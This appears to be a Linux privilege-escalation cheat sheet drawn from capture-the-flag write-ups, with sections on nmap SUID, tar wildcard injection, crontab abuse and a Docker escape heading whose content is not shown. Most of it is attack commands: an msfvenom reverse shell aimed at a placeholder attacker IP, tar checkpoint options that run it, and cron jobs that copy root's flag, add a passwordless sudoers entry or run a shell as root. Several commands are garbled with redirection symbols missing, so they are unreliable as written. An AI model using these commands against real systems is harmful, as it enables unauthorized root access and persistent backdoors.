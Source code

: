 - Start the service

		systemctl enable /path/to/service/file
		systemctl start service name


## Nmap SUID set
https://gtfobins.github.io/gtfobins/nmap/#limited-suid

	nmap --interactive
	!sh

## TAR
https://www.khalidalnajjar.com/hacking-jeff-writeup-thm/

If we create checkpoint files in the folder, tar will use these files to know what it has to do after compressing the files in the folder.

- Create a linux shell with msfvenom

		msfvenom -p cmd/unix/reverse_python  lhost=YOURIP lport=1234 R 	shell.sh

- Here we use checkpoint to execute the shell.sh

		echo "" 	"--checkpoint-action=exec=sh shell.sh"
		echo "" 	--checkpoint=1

## CRONTAB
https://rfc191852608710.wordpress.com/2020/07/11/tryhackme-write-up-jeff/
https://materials.rangeforce.com/tutorial/2020/04/17/Cron-Privilege-Escalation/

If we can run sudo with a user than we try to create a new task to get a shell or the root file.

- Get cron task file for the actual user

		sudo crontab -e

- Adding a new taks

		* * * * * /bin/cp /root/root.txt /tmp/root.txt; /bin/chmod 777 /tmp/root.txt 	/dev/null 2	&1

		OR

		*/1 * * * * echo "jeff ALL=(ALL) NOPASSWD:ALL" /etc/sudoers

		OR

		*/1 * * * * /usr/bin/sudo /usr/bin/bash /tmp/shell.sh

## DOCKER
[FELINE](https://www.hackthebox.eu/home/machines/profile/274)  
https://dejandayoff.com/the-danger-of-exposing-docker.sock/  
https://dreamlab.net/en/blog/post/abusing-dockersock-exposure/  
https://cert.litnet.lt/2016/11/owning-system-through-an-exposed-docker-engine/  

If we are inside a docker, then we can try to escape via different ways.
